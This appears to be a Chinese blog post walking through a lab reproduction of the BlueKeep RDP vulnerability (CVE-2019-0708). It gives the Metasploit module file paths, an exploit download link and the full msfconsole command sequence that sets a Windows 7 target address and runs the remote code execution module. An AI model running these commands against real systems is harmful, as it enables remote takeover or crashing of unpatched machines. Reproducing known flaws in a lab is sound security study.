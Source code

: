 ```yaml
---
title: WINDOWS_CVE-2019-0708复现
date: 2019-12-12 09:35:30
tags: 漏洞复现
---
```

<!-- more -->
最近在安全圈内掀起了一股玩0708漏洞的热潮，起因是0708的官方exp放出了  
赶上这股新鲜劲来复现一下这个漏洞  
首先需要装好metasploit-framework，这个工具在kali里自带，但是我们还是要更新一下  
```Shell
#  msfconsole
msf5>msfupdate
```
然后我们需要把那几个rdp下载下来并放入指定路径，在这里说一下，我们每个人的metasploit-framework路径可能不一样，所以不能光套用网上的过程，需要自己去找路径，我的路径就和网上很多复现过程的不一样，纠结了很久，这里讲一条简单的命令，可以找到自己机子的metasploit-framework的路径
```Shell
# find / -name metasploit-framework
```
![](WINDOWS_CVE-2019-0708_1.png)
我的是在/opt目录下的  
接下来可以通过进入到特定目录去wget特定的rdp文件，也可以先下载好然后再一个个copy过去，具体如下  
```
rdp.rb --> /usr/share/metasploit-framework/lib/msf/core/exploit/

rdp_scanner.rb --> /usr/share/metasploit-framework/modules/auxiliary/scanner/rdp/

cve_2019_0708_bluekeep.rb --> /usr/share/metasploit-framework/modules/auxiliary/scanner/rdp/

cve_2019_0708_bluekeep_rce.rb --> /usr/share/metasploit-framework/modules/exploits/windows/rdp/
```
附一个下载链接: https://github.com/TinToSer/bluekeep-exploit  
win7准备：3389端口需要开启，即在防火墙设置中添加一条3389的规则，并将防火墙全部关闭，远程桌面也要打开  
```
msfconsole

reload_all

search 2019_0708

use exploit/windows/rdp/cve_2019_0708_bluekeep_rce

set  RDP_CLIENT_IP 192.168.79.131

set RHOSTS 192.168.79.132

set RPORT 3389

set target 3

run
```
这里特别要注意，options中的RDP_CLIENT_IP要set为kali的ip  
![](WINDOWS_CVE-2019-0708_2.png)
最后run一下，run完了之后也不要太着急，要多等一会，如果蓝屏了，多run几次就可以了  
![](WINDOWS_CVE-2019-0708_3.png)  
成功！  
参考链接： https://www.cnblogs.com/paperpen/p/11487220.html
